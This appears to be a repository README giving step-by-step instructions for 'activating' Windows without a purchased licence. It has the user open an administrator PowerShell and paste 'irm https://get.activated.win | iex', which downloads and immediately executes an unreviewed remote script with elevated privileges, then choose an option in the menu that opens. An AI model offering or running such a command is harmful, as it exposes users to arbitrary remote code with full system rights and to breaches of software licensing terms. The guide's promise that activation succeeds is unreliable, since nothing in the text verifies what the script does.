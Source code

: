 # Windows-activation-prompt
For Windows activation
Step 1
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

Step 2
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.

Step 3
Now, after a brief pause to allow for execution, please copy this line:
                ---"irm https://get.activated.win | iex"---

Step 4
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.

Congratulations,
your Windows has been activated.
now you can hit the enter key to exit the CMD and close PowerShell and check windows Activation menu 3
